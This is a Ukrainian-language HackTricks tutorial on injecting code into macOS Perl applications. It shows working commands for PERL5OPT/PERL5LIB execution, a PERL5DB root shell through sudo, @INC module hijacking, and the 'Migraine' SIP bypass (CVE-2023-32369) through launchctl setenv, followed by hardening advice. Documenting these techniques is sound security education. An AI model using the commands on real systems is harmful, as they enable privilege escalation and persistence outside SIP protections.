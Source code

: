 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Via `PERL5OPT` & `PERL5LIB` env variable

Використовуючи змінну середовища **`PERL5OPT`**, можливо змусити **Perl** виконувати довільні команди, коли інтерпретатор запускається (навіть **перед** тим, як буде проаналізовано перший рядок цільового скрипта). Наприклад, створіть цей скрипт:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
Тепер **експортуйте змінну середовища** та виконайте **perl** скрипт:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
Інший варіант - створити модуль Perl (наприклад, `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
А потім використовуйте змінні середовища, щоб модуль був розташований і завантажений автоматично:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### Інші цікаві змінні середовища

* **`PERL5DB`** – коли інтерпретатор запускається з прапором **`-d`** (дебагер), вміст `PERL5DB` виконується як код Perl *всередині* контексту дебагера. Якщо ви можете вплинути як на середовище **так і** на командні прапори привілейованого процесу Perl, ви можете зробити щось на зразок:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # відкриє оболонку перед виконанням скрипту
```

* **`PERL5SHELL`** – у Windows ця змінна контролює, який виконуваний файл оболонки Perl буде використовувати, коли йому потрібно запустити оболонку. Вона згадується тут лише для повноти, оскільки не є актуальною на macOS.

Хоча `PERL5DB` вимагає прапор `-d`, часто можна знайти скрипти обслуговування або установки, які виконуються як *root* з увімкненим цим прапором для детального усунення неполадок, що робить цю змінну дійсним вектором ескалації.

## Через залежності (@INC зловживання)

Можна перерахувати шлях включення, який Perl буде шукати (**`@INC`**), запустивши:
```bash
perl -e 'print join("\n", @INC)'
```
Типовий вивід на macOS 13/14 виглядає так:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Деякі з повернених папок навіть не існують, однак **`/Library/Perl/5.30`** існує, *не* захищена SIP і знаходиться *перед* папками, захищеними SIP. Тому, якщо ви можете записувати як *root*, ви можете помістити шкідливий модуль (наприклад, `File/Basename.pm`), який буде *переважно* завантажений будь-яким привілейованим скриптом, що імпортує цей модуль.

> [!WARNING]
> Вам все ще потрібен **root**, щоб записувати в `/Library/Perl`, і macOS покаже запит **TCC**, що запитує *Повний доступ до диска* для процесу, що виконує операцію запису.

Наприклад, якщо скрипт імплементує **`use File::Basename;`**, буде можливим створити `/Library/Perl/5.30/File/Basename.pm`, що міститиме код, контрольований атакуючим.

## Обхід SIP через Migration Assistant (CVE-2023-32369 “Migraine”)

У травні 2023 року Microsoft розкрила **CVE-2023-32369**, прозваний **Migraine**, техніку пост-експлуатації, яка дозволяє *root* атакуючому повністю **обійти Захист цілісності системи (SIP)**. Вразливий компонент - це **`systemmigrationd`**, демон, наділений **`com.apple.rootless.install.heritable`**. Будь-який дочірній процес, створений цим демоном, успадковує право і, отже, працює **поза** обмеженнями SIP.

Серед дітей, ідентифікованих дослідниками, є інтерпретатор, підписаний Apple:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Оскільки Perl поважає `PERL5OPT` (а Bash поважає `BASH_ENV`), отруєння *оточення* демона достатньо для отримання довільного виконання в контексті без SIP:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
Коли `migrateLocalKDC` запускається, `/usr/bin/perl` стартує з шкідливим `PERL5OPT` і виконує `/private/tmp/migraine.sh` *до повторного ввімкнення SIP*. З цього скрипту ви можете, наприклад, скопіювати корисне навантаження всередину **`/System/Library/LaunchDaemons`** або призначити розширений атрибут `com.apple.rootless`, щоб зробити файл **недоступним для видалення**.

Apple виправила цю проблему в macOS **Ventura 13.4**, **Monterey 12.6.6** та **Big Sur 11.7.7**, але старі або непатчовані системи залишаються вразливими.

## Рекомендації щодо посилення безпеки

1. **Очистіть небезпечні змінні** – привілейовані launchdaemons або cron jobs повинні запускатися в чистому середовищі (`launchctl unsetenv PERL5OPT`, `env -i` тощо).
2. **Уникайте запуску інтерпретаторів від імені root**, якщо це не є строго необхідним. Використовуйте скомпільовані двійкові файли або знижуйте привілеї на ранніх етапах.
3. **Використовуйте скрипти постачальника з `-T` (режим забруднення)**, щоб Perl ігнорував `PERL5OPT` та інші небезпечні параметри, коли перевірка на забруднення увімкнена.
4. **Тримайте macOS в актуальному стані** – “Migraine” повністю виправлено в поточних випусках.

## Посилання

- Microsoft Security Blog – “Нова вразливість macOS, Migraine, може обійти захист цілісності системи” (CVE-2023-32369), 30 травня 2023 року.
- Hackyboiz – “Дослідження обходу SIP в macOS (PERL5OPT & BASH_ENV)”, травень 2025 року.

{{#include ../../../banners/hacktricks-training.md}}
